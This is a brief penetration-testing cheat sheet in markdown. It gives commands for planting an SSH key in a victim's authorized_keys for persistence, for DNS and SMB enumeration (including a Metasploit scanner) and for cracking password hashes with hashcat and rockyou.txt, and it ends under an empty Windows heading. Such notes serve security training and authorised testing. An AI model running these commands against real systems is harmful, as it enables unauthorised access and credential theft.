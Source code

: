 ```bash
#Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
 ```
 
## DNS 53

```bash
dnsenum <DOMAIN>
```
```bash
dnsrecon -d <DOMAIN>
```

## SMB 445

```bash
smbclient -L <IP>
```
- Manual testing

```bash
smbmap -H <IP>
```

```bash
enum4linux -a <IP>
```

- Finding SMB version

```bash
msf> use auxiliary/scanner/smb/smb_version
msf> options
msf> set rhosts <target_ip>
msf> run
```

# Password cracking 

- Linux password cracking 

```bash
hashcat -m 1800 -a 0 hash.txt rockyou.txt
hashcat -m 1800 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
```

- Windows password cracking
